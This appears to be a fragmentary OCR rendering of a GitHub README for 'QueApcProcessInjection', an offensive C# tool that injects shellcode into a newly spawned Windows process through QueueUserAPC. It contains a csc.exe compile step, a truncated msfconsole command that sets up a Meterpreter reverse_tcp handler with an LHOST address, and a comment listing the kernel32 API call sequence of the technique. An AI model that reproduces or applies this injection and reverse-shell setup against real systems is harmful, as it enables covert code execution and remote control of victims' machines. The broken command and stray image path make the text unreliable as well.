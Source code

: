 # QueApcProcessInjection

** Visual Studio 2019 Developer Command Prompt v16.10.4
** Copyright (c) 2021 Microsoft Corporation
**********************************************************************

C:\Windows\System32>csc.exe "C:\Users\Andrea\Desktop\QueApcProcessInjection.cs"
Compilatore Microsoft (R) Visual C# versione 3.10.0-4.21329.37 (246ce641)
Copyright (C) Microsoft Corporation. Tutti i diritti sono riservati.

└─# msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST 192.168.0.3

/*QUEUE USER APC PROCESS INJECTION
description: |
	Injects shellcode into a newly spawned remote process using user-mode asynchronous procedure call (APC). 
	Thread execution via ResumeThread.
key win32 API calls:
  - kernel32.dll:
    1: 'CreateProcess'
    2: 'VirtualAllocEx'
    3: 'WriteProcessMemory'
    4: 'OpenThread'
    5: 'VirtualProtectEx'
    6: 'QueueUserAPC'
	7: 'ResumeThread'
*/
